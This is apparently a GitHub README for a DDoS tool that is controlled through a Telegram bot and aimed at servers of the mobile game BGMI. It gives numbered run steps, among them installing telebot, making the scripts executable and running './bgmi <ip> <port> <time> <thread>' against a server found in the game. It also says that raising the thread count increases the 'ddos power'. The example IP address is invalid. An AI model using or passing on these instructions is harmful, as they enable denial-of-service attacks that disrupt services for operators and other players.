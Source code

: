 # DDOS-attack-
DDOS Attack with telegram bot
open that file in gihub codespace
then give your telegram bot id & your user id i mean edit in that script

To Run that -->
1. at first in terminal write pip install telebot(In vs code install python extensions)
2. then after installing that clear that
3. then in terminal write cd bot
4. then write chmod +x *
5. then in bgmi find the ip & port then
6. in terminal "./bgmi <ip> <port> <time> <thread>" then hit enter
7. Ex :- ./bgmi 2.448.48.54 18363 280 280    (Remember that 280 means in second & if you increase the thread them it will increase ddos power)
8. after executing that command your ddos attack will start
